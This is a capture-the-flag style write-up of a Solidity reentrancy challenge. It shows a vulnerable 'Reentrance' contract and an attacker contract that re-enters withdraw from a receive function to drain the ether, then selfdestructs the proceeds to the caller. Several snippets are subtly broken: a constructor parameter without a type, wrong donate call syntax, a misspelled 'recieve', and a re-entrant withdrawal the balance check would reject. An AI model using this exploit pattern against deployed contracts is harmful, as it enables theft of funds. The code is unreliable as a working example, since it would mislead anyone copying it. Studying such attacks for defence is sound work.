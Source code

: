 ## Reentrancy Challenge

## The goal of this challenge is to steal all the ether from the contract and perform a reentrancy attack.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;
    mapping(address => uint) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    function withdraw(uint _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result, ) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

As you can see there is a donate function in this contract that is payable and requires us to send ether to the contract in order to be able to call the withdraw function.
So the flow basically goes like this => Donate => Withdraw

But to perform a reentrancy attack we need to call the fallback or receive function in order to be able to take all the ether out of the contract.

**Note** fallback and receive functions execute when ether is sent to the contract.

Let's go ahead and perform an attack in the following steps

- Create an interface for the functions we will be calling.

```javascript
pragma solidity ^0.8.0;

interface IReentrancy {

    function donate(address) external payable;

    function withdraw(uint256) external;

}
```

- Pass the contract from the interface in the constructor as the targetted contract.

```javascript

contract Hack {
    IReentrancy private immutable target;

    constructor(_target) {
        target = IReentrancy(_target);
    }

}
```

- Next up let's call the donate function within a new function called attack as well as the withdraw function.

```javascript
function attack() external payable {
    target.donate({ value: 1e18 })(address(this));
    target.withdraw(1e18);
}
```

- This will call the donate function first and then withdraw the sent ether. But we also want to steal the rest of the ether in the contract, to do that we will call the withdraw function inside a recieve/fallback that will be called everytime ether is sent to the contract.

```javascript
recieve() external payable{
    uint256 amount = address(target).balance;
    if(amount > 0) {
        target.withdraw(amount);
    }
}
```

That should do it, but in order to steal the ether to our wallet we can send the ether to our contract after the attack is successfull.

```javascript
function attack() external payable {
    target.donate({ value: 1e18 })(address(this));
    target.withdraw(1e18);
    require(address(target).balance == 0, "Balance > 0");
    selfdestruct(payable(msg.sender));
}
```
